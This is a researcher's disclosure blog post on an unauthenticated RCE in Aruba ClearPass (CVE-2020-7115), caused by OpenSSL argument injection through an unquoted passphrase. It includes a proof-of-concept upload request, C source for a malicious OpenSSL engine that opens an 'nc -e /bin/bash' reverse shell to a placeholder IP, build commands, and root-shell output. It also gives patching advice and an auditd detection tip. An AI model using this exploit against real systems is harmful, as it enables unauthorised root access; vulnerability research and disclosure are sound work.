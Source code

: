 ```yaml
---
title:  "Aruba Clearpass RCE (CVE-2020-7115)"
layout: post
date:   2020-09-18
permalink: posts/aruba-clearpass-rce
---
```


**Unauthenticated RCE in Aruba ClearPass Policy Manager <= 6.9.0 (CVE-2020-7115)**

I discovered an unauthenticated RCE vulnerability in Aruba ClearPass Policy Manager that I reported to Aruba, and it is now fixed. The Aruba security bulletin is available at [ARUBA-PSA-2020-005.txt](https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2020-005.txt). Exploiting this vulnerability uses a couple of interesting tricks that I'll explain in this post. 

## Discovery
I first discovered something interesting when I was looking through the unauthenticated attack surface of ClearPass, and grabbed a list of actions from the `struts.xml` file, and fed them to Burp Intruder. Several pages returned a response other than a 302 to the login page, although the majority of these were login related. The most interesting of these was the `tipsSimulationUpload.action` endpoint, which returned a 200 response to a GET request with the message "No file has been uploaded". 

After looking at the application log to figure out what was going on, I found it needed a few parameters to be set. By reading the application's decompiled Java code, I figured out this was an upload endpoint for certificate files, used in the "Policy Simulation" functionality of the application. A valid call to the endpoint looks like:

```
POST /tips/tipsSimulationUpload.action HTTP/1.1
Host: 192.168.200.81
Connection: close
Content-Length: 16425
Content-Type: multipart/form-data; charset="utf-8"; boundary=----WebKitFormBoundarySCYwHjrAcRBmbkPK
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="clientPassphrase"

password
------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="uploadClientCertFile"; filename="a.pfx"
Content-Type: application/octet-stream

<CERT FILE>
------WebKitFormBoundarySCYwHjrAcRBmbkPK--
```

In my experience, certificate handling code is a rewarding area to audit, as developers often shell out to the OpenSSL binary, rather than handling the certificate using a code library. In the case of ClearPass, if a client certificate was uploaded in the call to the endpoint, the contents were copied to a temporary file in the `/tmp/` directory. The temporary file was created using the Java `createTempFile` function, which gives the temporary file a random name, and a fixed extension, so that the file looks like `/tmp/clientCertFile{RAND}.txt` This means that we have no ability to control the file name, only the contents. 

After the certificate contents were copied into the temporary file, the code attempted to "validate" the client certificate by determining whether the password parameter in the request was able to decrypt the certificate. This was performed by passing the temporary file name and the password as arguments to a shell script, which called `openssl pkcs12` and checked whether it returned successfully or not. 

The shell script looked like this:

**verifyClientCertFile.sh**
```
#! /bin/bash

openssl pkcs12 -in $1 -passin pass:$2 -noout -nokeys > /dev/null
```

Unfortunately for attackers, this shell script is invoked from Java by breaking up the arguments into an String array, then passing the array to ProcessBuilder. Under the hood ProcessBuilder will use execve on a String[], which prevents command injection.

However, as the "pass" argument in the `verifyClientCertFile.sh` script is not quoted, we do have the ability to inject **arguments** to OpenSSL, which can result in arbitrary code execution.  This is something I have detailed in further in my [OpenSSL argument injection](openssl-arginjection) post. 

Basically the short version is that if 

a) you are able to place a file on disk that can be interpreted as an OpenSSL engine file

b) you can provide and control the `-engine` argument to OpenSSL

then you can execute arbitrary code. Often the tricky part of this is getting the engine file on disk for OpenSSL to execute. Not content with leaving this as an authenticated issue (there are many post-authentication ways of uploading files in ClearPass), I tried to figure a way around. I then realised that the certificate upload was not validated to see if it looked like a certificate - it was just placed in the temporary file as is, and then passed to the validation shell script. Of course, the problem here is that we don't know the uploaded file name, as it is randomly generated. I briefly checked the implementation to see if the randomness was in some way predictable, but in OpenJDK this is [implemented using SecureRandom](https://hg.openjdk.java.net/jdk8/jdk8/jdk/file/687fd7c7986d/src/share/classes/java/io/File.java#l1901). 

What I then realised is that as the password argument passes unquoted through a shell script, we can use the wildcard character * , which will be expanded. This means we don't actually **need to know** the uploaded file name - we can just pass a path like `/tmp/clientCertFile*.txt` and the shell script will substitute in a valid path for us! 

This lack of quoting means we can upload an OpenSSL engine file as the certificate, and in the same request set the passphrase to an argument injection that references the temporary certificate file without knowing its actual name. 

After firing off a request with the passphrase `'a' -engine /tmp/clientCertFile*.txt` and a compiled OpenSSL engine file I received a reverse shell:

```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.168.200.81.
Ncat: Connection from 192.168.200.81:60246.
id
uid=0(root) gid=0(root) groups=0(root)

```

## Proof of Concept
The final proof of concept HTTP request looks like:

```
POST /tips/tipsSimulationUpload.action HTTP/1.1
Host: 192.168.200.81
Connection: close
Content-Length: 16425
Cache-Control: max-age=0
Origin: https://192.168.200.81
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; charset="utf-8"; boundary=----WebKitFormBoundarySCYwHjrAcRBmbkPK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.162 Safari/537.36
Sec-Fetch-Dest: iframe
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: https://192.168.200.81/tips/tipsContent.action
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="clientPassphrase"

'a' -engine /tmp/clientCertFile*.txt
------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="uploadClientCertFile"; filename="a.pfx"
Content-Type: application/octet-stream

<OPENSSLENGINEBINARY>
------WebKitFormBoundarySCYwHjrAcRBmbkPK--
```

and engine file:

```
#include <unistd.h>

__attribute__((constructor))
        static void init() {
                    execl("/bin/sh", "sh", "-c","nc -e /bin/bash <IP> 1234",NULL);
        }

```
compile with:
`gcc -fPIC -o a.o -c a.c && gcc -shared -o a.so -lcrypto a.o`


If you are trying to replicate this, the POC will only work the first time. This is because when the disk contains multiple clientCertFiles they are all passed as arguments, which is not a valid way to call OpenSSL. You can work around this! - figuring out how is up to you. 


This bug was reported to Aruba, and fixed in 6.9.1. The best mitigation for this issue and others is to ensure you keep your ClearPass instance up to date with the latest patches, and restrict network access to the management interface to authorised endpoints.


#### BONUS: Finding argument injections

One of the best ways I have discovered to find and validate argument injections in complex code is to set up the auditd daemon, and monitor calls to shells and binaries that are being called such as OpenSSL and tar. You can do it like (taken [from here](https://serverfault.com/questions/736753/how-to-log-execution-of-a-specific-binary-script-using-auditd-or-other)):

```
# systemctl start auditd 
# auditctl -w /bin/sh -p x -k my_execs
# auditctl -w /bin/bash -p x -k my_execs
# auditctl -w /bin/openssl -p x -k my_execs
# ausearch -i -k my_execs
```

The ausearch command will display the invocations of the two shells and OpenSSL. So in the case of this ClearPass vulnerability, when we submit the passphrase  `'a' /tmp/a*` the ausearch command shows the following invocations (some information trimmed)

```
type=EXECVE msg=audit(09/17/2020 13:54:28.528:34154) : argc=4 a0=/bin/bash a1=/usr/local/avenda/tips/bin/tipsAdmin/verifyClientCertFile.sh a2=/tmp/clientCertFile3903733629309270609.txt a3=a /tmp/a* 
--
type=EXECVE msg=audit(09/17/2020 13:54:28.530:34155) : argc=9 a0=openssl a1=pkcs12 a2=-in a3=/tmp/clientCertFile3903733629309270609.txt a4=-passin a5=pass:a a6=/tmp/avenda-postgresql.conf a7=-noout a8=-nokeys 
```

Note the `/tmp/a*` is expanded to `/tmp/avenda-postgresql.conf`, a file that exists on disk. You can also see the `a3=a /tmp/a*` in the bash execution, and in the OpenSSL execution the value has been split like `a5=pass:a a6=/tmp/avenda-postgresql.conf`. When you see that arguments you have provided separated by a space or spacelike character are split into different a{N} values, this indicates an argument injection is possible. An unsuccessful injection in non-vulnerable code would have an OpenSSL call that looked like this:

```
type=EXECVE msg=audit(09/17/2020 11:25:22.153:5227) : argc=8 a0=openssl a1=pkcs12 a2=-in a3=/tmp/clientCertFile4516591877132007270.txt a4=-passin a5=pass:a /tmp/a* a6=-noout a7=-nokeys 
```
In this one the wildcard was not expanded, and the spaces have not separated the `a` from the `/tmp/a*` path into a5 and a6.

